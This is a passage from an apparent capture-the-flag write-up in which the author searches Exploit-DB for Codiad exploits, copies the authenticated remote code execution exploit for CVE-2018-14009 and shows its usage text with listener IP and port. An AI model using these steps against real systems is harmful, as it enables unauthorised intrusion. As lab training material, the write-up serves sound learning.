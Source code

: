 now that we are logged in let's check for any known exploits for this version 

### exploit

```terminal
searchsploit  codiad
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Codiad 2.4.3 - Multiple Vulnerabilities                                                                                                                                                                   | php/webapps/35585.txt
Codiad 2.5.3 - Local File Inclusion                                                                                                                                                                       | php/webapps/36371.txt
Codiad 2.8.4 - Remote Code Execution (Authenticated)                                                                                                                                                      | multiple/webapps/49705.py
Codiad 2.8.4 - Remote Code Execution (Authenticated) (2)                                                                                                                                                  | multiple/webapps/49902.py
Codiad 2.8.4 - Remote Code Execution (Authenticated) (3)                                                                                                                                                  | multiple/webapps/49907.py
Codiad 2.8.4 - Remote Code Execution (Authenticated) (4)                                                                                                                                                  | multiple/webapps/50474.txt
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```

it looks like the version being used is vulnerable to RCE
so let's try the first one 

```terminal
searchsploit -m multiple/webapps/49705.py

  Exploit: Codiad 2.8.4 - Remote Code Execution (Authenticated)
      URL: https://www.exploit-db.com/exploits/49705
     Path: /usr/share/exploitdb/exploits/multiple/webapps/49705.py
    Codes: CVE-2018-14009
 Verified: True
File Type: Python script, ASCII text executable
Copied to: /home/drli/Downloads/49705.py


                                                                                                                                                                                                                                            
┌──(drli㉿kali)-[~/Downloads]
└─$ python3 49705.py          
Usage : 
        python 49705.py [URL] [USERNAME] [PASSWORD] [IP] [PORT] [PLATFORM]
        python 49705.py [URL:PORT] [USERNAME] [PASSWORD] [IP] [PORT] [PLATFORM]
Example : 
        python 49705.py http://localhost/ admin admin 8.8.8.8 8888 linux
        python 49705.py http://localhost:8080/ admin admin 8.8.8.8 8888 windows
Author : 
        WangYihang <wangyihanger@gmail.com>
```
